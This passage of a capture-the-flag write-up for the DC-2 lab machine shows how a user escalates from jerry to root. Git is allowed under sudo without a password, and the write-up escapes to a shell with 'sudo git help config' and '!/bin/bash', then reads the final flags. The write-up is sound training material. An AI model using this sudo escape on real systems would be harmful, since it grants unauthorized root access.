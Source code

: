 
Connecting as jerry

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry)
jerry@DC-2:/home/tom$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Jerry has sudo -l privileges on (root) NOPASSWD: /usr/bin/git

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation with git
run git help config
!/bin/bash


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jerry@DC-2:/home/tom$ sudo /usr/bin/git help config
root@DC-2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Flag4

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@DC-2:/home/jerry# cat flag4.txt
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Final-Flag

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@DC-2:~# cat final-flag.txt 
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~